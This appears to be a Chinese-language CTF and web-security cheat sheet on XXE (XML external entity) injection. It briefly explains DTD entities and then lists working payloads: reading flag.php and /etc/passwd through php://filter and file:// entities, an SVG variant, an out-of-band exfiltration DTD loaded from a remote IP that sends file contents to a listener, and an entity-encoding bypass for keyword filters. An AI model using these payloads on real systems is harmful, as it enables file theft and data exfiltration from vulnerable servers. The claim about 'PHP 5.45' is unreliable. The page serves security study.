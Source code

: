 ```yaml
---
title: 【WEB】XXE
---
```

# XXE

XXE （ PHP 5.45之后不解析实体 ）

```
<!DOCTYPE 根标签名 SYSTEM "文件名">
```

DTD实体是用于定义引用文本或字符的快捷方式的变量，可内部声明或外部引用。

约束通过类别关键词 ANY 声明的元素，可包含任何可解析数据的组合：

```
<!ELEMENT 标签名 ANY>
```

同时xxe可进行内网探测读取 /etc/hosts



## Payload

PHP文件读取

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY>
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">]>
<creds>
<user>&xxe;</user>
</creds>
```

file协议读取文件

```
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<catalog>
    	<core id="test101">
     		<description>&xxe;</description>
  		</core>
</catalog>
```

SVG格式

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "要读取的文件路径" >
]>
<svg height="100" width="1000">
  		<text x="10" y="20">&file;</text>
</svg>
```

数据外带

```
<!DOCTYPE root [ 
<!ENTITY % remote SYSTEM "http://174.1.66.167/shell.dtd">
%remote;
]>

shell.dtd
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1:5555/?flag=%file;'>">
%int;
%send;
```

xxe绕过的payload

当只过滤了SYSTEM，PUBLIC等关键字时，可用双重实体编码绕过

```
<?xml version="1.0"?>

<!DOCTYPE GVI [

    <!ENTITY % xml "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#46;&#116;&#120;&#116;&#34;&#32;&#62;&#93;&#62;&#10;&#60;&#99;&#111;&#114;&#101;&#62;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#60;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#38;&#120;&#120;&#101;&#59;&#60;&#47;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#10;&#60;&#47;&#99;&#111;&#114;&#101;&#62;">

    %xml;
```

即为在xml实体中再定义一次xml，可成功被解析，支持dtd数据外带

```
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<core>
      <message>&xxe;</message>
</core>
```

以上为编码部分内容

